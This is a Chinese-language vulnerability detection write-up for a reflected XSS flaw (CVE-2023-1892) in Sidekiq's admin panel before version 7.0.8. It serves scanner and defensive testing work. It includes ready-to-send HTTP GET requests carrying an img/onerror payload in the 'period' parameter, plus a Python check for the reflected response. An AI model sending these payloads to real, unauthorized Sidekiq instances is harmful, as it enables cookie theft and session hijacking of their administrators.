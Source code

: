 # Sidekiq < 7.0.8 XSS漏洞（CVE-2023-1892）检测说明

## 漏洞简介

Sidekiq 7.0.8 之前版本的管理面板存在跨站脚本（XSS）漏洞，攻击者可通过特定参数注入恶意脚本，导致在受害者浏览器中执行任意JavaScript代码。

## 影响范围

- 产品：Sidekiq
- 影响版本：< 7.0.8
- CVE编号：CVE-2023-1892
- 危害等级：Critical

## 漏洞原理

/metrics及相关接口未对period参数进行有效过滤，攻击者可注入恶意HTML标签和事件处理脚本，触发XSS。

## 利用方式与攻击流程

1. 攻击者访问/queues页面，确认目标为Sidekiq管理面板。
2. 构造带有XSS payload的GET请求，period参数注入`"><img/src/onerror=alert(document.domain)>`。
3. 服务器端未对参数进行安全处理，直接插入到页面中。
4. 受害者访问该页面时，恶意脚本在其浏览器中执行。
5. 攻击者可窃取cookie、劫持会话等。

## 探测原理与流程

### 探测请求的构造

```http
GET /metrics?period=%22%3E%3Cimg/src/onerror=alert(document.domain)%3E HTTP/1.1
Host: target.com

GET /metrics/SanityChecksJob?period=%22%3E%3Cimg/src/onerror=alert(document.domain)%3E HTTP/1.1
Host: target.com

GET /metrics/ActiveStorage::PurgeJob?period=%22%3E%3Cimg/src/onerror=alert(document.domain)%3E HTTP/1.1
Host: target.com
```

- period参数注入了img标签和onerror事件。

### 预期响应与交互

- 响应体需包含`<img/src/onerror=alert(document.domain)>`。
- 响应头包含`text/html`。
- HTTP状态码为200。

### 判定逻辑

```python
def is_vulnerable(response):
    if response.status_code == 200 and '<img/src/onerror=alert(document.domain)>' in response.text and 'text/html' in response.headers.get('content-type', ''):
        return True
    return False
```

### 检测流程Mermaid图

```mermaid
graph TD
    A[访问/queues确认Sidekiq面板] --> B[发送带XSS payload的GET请求]
    B --> C[接收HTTP响应]
    C --> D{响应体含img标签?}
    D -- 否 --> F[非漏洞]
    D -- 是 --> E{Content-Type为text/html且状态码为200?}
    E -- 否 --> F
    E -- 是 --> G[判定存在XSS漏洞]
```

## 参考链接

- [huntr安全通告](https://huntr.com/bounties/e35e5653-c429-4fb8-94a3-cbc123ae4777)
- [Sidekiq官方修复commit](https://github.com/sidekiq/sidekiq/commit/458fdf74176a9881478c48dc5cf0269107b22214)
- [NVD官方漏洞库](https://nvd.nist.gov/vuln/detail/CVE-2023-1892) 